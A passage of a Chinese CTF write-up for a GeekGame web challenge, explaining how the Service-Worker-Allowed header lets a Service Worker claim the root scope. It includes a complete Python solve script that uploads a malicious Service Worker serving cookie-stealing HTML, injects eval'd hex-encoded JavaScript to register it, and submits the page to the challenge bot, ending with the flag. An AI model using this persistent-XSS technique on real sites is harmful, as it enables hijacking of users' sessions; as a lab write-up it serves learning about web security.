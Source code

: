 
`The path of the provided scope ('/') is not under the max scope allowed ('/sw/'). Adjust the scope, move the Service Worker script, or use the Service-Worker-Allowed HTTP header to allow the scope.`


原来是不让我注册到根目录下，了解了一下发现原来Service Worker默认只能注册在脚本文件所在目录的scope（或者更内层的scope）下，而不能在所在目录外层的scope注册，这里浏览器认为我的脚本在'/sw'路径下，因此不让我注册到scope: '/'。但好在我仔细看了一眼报错内容，它除了让我修改注册scope、移动脚本以外，居然还有第三个选项，那就是使用一个响应头字段：`Service-Worker-Allowed`来告诉浏览器允许注册这个脚本到哪些scope下。那就简单了，我们不正好可以随便改响应头吗，加一条`"Service-Worker-Allowed": "/"`就行了。


加上这条响应头试了一下，果然成功了。解题脚本如下：

```python
import requests
from pwn import *

url = 'https://prob99-m63o7gly.geekgame.pku.edu.cn/'

sw_script = """self.addEventListener('fetch', function(event) {
    event.respondWith(
        new Response('<script>setTimeout(()=>{document.title = document.cookie;}, 1000);</script>',
            {headers: {'Content-Type':'text/html'}}
        )
    )
});"""
requests.post(url, data={'name': 'sw', 'header': '{"Content-Type": "text/javascript", "Service-Worker-Allowed": "/"}', 'body': sw_script})

js_code = """navigator.serviceWorker.register('/sw/', {'scope': '/'});"""

js_code = ''.join(map(lambda x: '\\x' + hex(ord(x))[2:], js_code))
inject = """<script>window.eval('%s')</script>""" % js_code
requests.post(url, data={'name': '2', 'header': '{"Content-Type": "text/html"}', 'body': inject})

r = remote('prob01.geekgame.pku.edu.cn', 10001)
r.recvuntil(b'token:')
r.sendline(b'YOUR_TOKEN_HERE')
print(r.recvuntil(b'Your blog URL: ').decode())
r.sendline((url + '2/').encode())
try:
    while 1:
        print(r.recv().decode())
except EOFError:
    ...

```

flag{peRSiSTeNt-XSS-aTTACK-UsiNG-SERvIce-woRkER}

不得不说这个Service Worker结合XSS漏洞是真的厉害。。。
